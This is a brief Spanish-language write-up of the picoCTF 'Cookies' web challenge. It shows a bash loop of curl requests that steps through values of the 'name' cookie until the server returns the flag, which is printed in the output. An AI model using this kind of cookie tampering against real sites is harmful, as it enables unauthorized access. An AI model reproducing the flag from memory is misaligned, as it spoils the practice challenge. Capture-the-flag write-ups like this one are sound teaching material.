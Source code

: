 # Cookies

## Objetivo
Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:21485/](http://mercury.picoctf.net:21485/)

## Solución
```bash
┌──(emgeek㉿EmGeek-Kali-PC)-[~/Documents]  
└─$ for i in {0..20}; do curl -s http://mercury.picoctf.net:21485/check -H "Cookie: name=$i"; done | grep picoCTF  
           <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_94190c8a}</code></p>
```

Lo que se hizo fue entrar a la pagina, una vez adentro escribi la primer galleta que aparecia ahi, una vez hehco eso lanzo la pagina http://mercury.picoctf.net:21485/check, ademas, la cookie name cambio de -1 a 0, asi que ahora con la terminal se empezo a mandar varias veces la cookie editada hasta que apareciera la bandera

## Notas adicionales


## Referencias